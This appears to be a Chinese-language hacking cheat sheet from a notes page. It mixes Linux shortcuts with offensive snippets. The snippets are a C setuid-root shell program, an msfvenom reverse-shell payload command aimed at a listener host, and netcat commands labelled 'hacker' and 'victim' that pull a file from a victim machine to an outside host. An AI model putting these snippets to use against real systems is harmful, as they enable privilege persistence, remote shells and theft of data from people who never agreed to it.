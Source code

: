 - Linux执行shell文件：

  ```
  [Go0s]: ~/Desktop 
  ➜  cat 1.sh 
  echo 123
  [Go0s]: ~ 
  ➜  ./Desktop/1.sh 
  123
  [Go0s]: ~ 
  ➜  Desktop/./1.sh
  123
  ```

- 获取高权限shell，利用编译c：

  ```
  int main(){
      setuid(0);
      setgid(0);
      system("/bin/bash");
  }
  ```

- MSF 用于反弹shell的payload：`msfvenom -p cmd/unix/reverse_python LHOST=10.1.1.2 LPORT=4444 R`

  ```
  [Go0s]: ~/Desktop 
  ➜  msfvenom -l payloads | grep "cmd/unix" | awk '{print $3}'
  ```

- 修改hosts原因：源码中写死了url、服务器配置【使用真实ip访问不到资源的情况，多见于CDN找到真实IP后出现的情况】

- 两个服务器中传输文件的trick：

  ```
  反向
  hacker:  nc -l -vv 4444 > content
  victim:  nc 8.8.8.8 4444 < file

  正向
  hacker:  nc 9.9.9.9 4444 > content
  victim:  nc -l -vv 4444 < file

  cat file | nc ...
  ```

- nano编辑器，^G意思是Ctrl + g

- F1-12 是 fn + command + F

- 单个`find`命令相当于`tree`

- `cd Desk*`进入到桌面，巧用*通配符

- ​

